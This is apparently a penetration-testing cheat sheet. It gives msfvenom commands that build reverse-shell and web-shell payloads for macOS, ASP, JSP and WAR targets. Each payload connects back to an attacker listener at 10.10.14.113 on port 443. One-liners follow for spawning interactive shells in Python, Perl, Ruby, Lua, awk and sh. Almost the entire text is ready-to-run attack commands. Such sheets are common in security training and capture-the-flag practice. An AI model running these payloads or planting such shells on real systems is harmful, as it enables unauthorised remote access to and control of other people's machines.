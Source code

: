#### MacOS Reverse Shell Payload

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

#### ASP Web Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

#### JSP Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

#### WAR Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```

#### Shell Spawning Techniques

#### Python Interactive Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

#### Basic Linux Shell

```bash
/bin/sh -i
```

#### Perl Interactive Shell

```bash
perl -e 'exec "/bin/sh";'
```

#### Ruby Interactive Shell

```ruby
exec "/bin/sh"
```

#### Lua Interactive Shell

```lua
os.execute('/bin/sh')
```

#### Awk Shell

```bash
awk 'BEGIN {system("/bin/sh")}'
```
